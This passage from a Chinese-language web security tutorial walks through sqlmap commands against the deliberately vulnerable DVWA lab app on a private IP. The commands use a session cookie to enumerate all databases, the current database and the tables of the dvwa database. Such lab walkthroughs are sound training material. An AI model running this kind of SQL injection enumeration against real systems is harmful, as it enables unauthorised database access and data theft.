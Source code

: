 ![在这里插入图片描述](/docs/images/content/security/burp_suite/action_01_web.md.images/0e7024c4d57bde94c82abf678dbd8561.png)
>检查第一次较慢，完成后在执行其他爆破，都会很快。

爆所有数据库信息（--dbs）：
```
python sqlmap.py -u "http://192.168.20.48/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --headers="Cookie: PHPSESSID=k3e212a0a0p2mj5kut2gmjdfo2; XDEBUG_SESSION=15794; ts_uid=8970165994; ad_play_index=25; security=low" --dbs
```
![在这里插入图片描述](/docs/images/content/security/burp_suite/action_01_web.md.images/3d12a0c8addaa4228a00348ab392bb60.png)

**爆当前数据库信息（ --current-db）：**

```
python sqlmap.py -u "http://192.168.20.48/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --headers="Cookie: PHPSESSID=k3e212a0a0p2mj5kut2gmjdfo2; XDEBUG_SESSION=15794; ts_uid=8970165994; ad_play_index=25; security=low" --current-db
```
![在这里插入图片描述](/docs/images/content/security/burp_suite/action_01_web.md.images/6838082138fe94d9ba3824a09a955bbf.png)


**指定库名列出所有表（-D 数据库名 --tables）**

```
python sqlmap.py -u "http://192.168.20.48/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --headers="Cookie: PHPSESSID=k3e212a0a0p2mj5kut2gmjdfo2; XDEBUG_SESSION=15794; ts_uid=8970165994; ad_play_index=25; security=low" -D dvwa --tables
```
![在这里插入图片描述](/docs/images/content/security/burp_suite/action_01_web.md.images/648c29b8886549867217c9a131ebbcad.png)
